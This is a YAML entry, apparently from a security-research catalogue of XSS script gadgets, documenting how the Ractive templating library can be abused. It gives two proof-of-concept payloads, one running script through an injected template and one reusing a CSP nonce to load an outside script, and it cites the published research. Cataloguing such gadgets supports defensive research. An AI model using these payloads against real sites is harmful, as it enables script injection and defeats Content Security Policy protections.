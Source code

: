 ```yaml
---
description: It"s a JavaScript library for building reactive user interfaces in a way that doesn"t force you into a particular framework"s way of thinking. It takes a radically different approach to DOM manipulation - one that saves both you and the browser unnecessary work.
github: ractivejs/ractive
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - script-tag
      - id-attr
      - unsafe-eval-csp
      - func-call-parameter
    pocs:
      - description: |
          The [Ractive](https://github.com/ractivejs/ractive) framework uses the `template` attribute value as a query selector for `<script>` elements. It then renders the content of the selected template.

          Due to the way the templating system works, it is possible to execute arbitrary scripts through the template.
        code: |
          <div id="app"></div>

          <!-- user input -->
          <script id="template">{{@global.window.alert(@global.document.domain)}}</script>

          <script nonce="secret" src="https://cdn.jsdelivr.net/npm/ractive@1.4.4/ractive.min.js"></script>
          <script nonce="secret">
            const ractive = new Ractive({
              target: "#app",
              template: "#template",
              data: {
                name: "World"
              }
            });
          </script>
      - description: It is also possible to retrieve the nonce from the current script element and use it to load a script.
        code: |
          <div id="app"></div>

          <!-- user input -->
          <script id="template"><script nonce="{{@global.document.currentScript.nonce}}" src="[current-location]/assets/xss/index.js" /></script>

          <script nonce="secret" src="https://cdn.jsdelivr.net/npm/ractive@1.4.4/ractive.min.js"></script>
          <script nonce="secret">
            const ractive = new Ractive({
              target: "#app",
              template: "#template",
              data: {
                name: "World"
              }
            });
          </script>
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/ractive.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/ractive_exploit.php
---
```

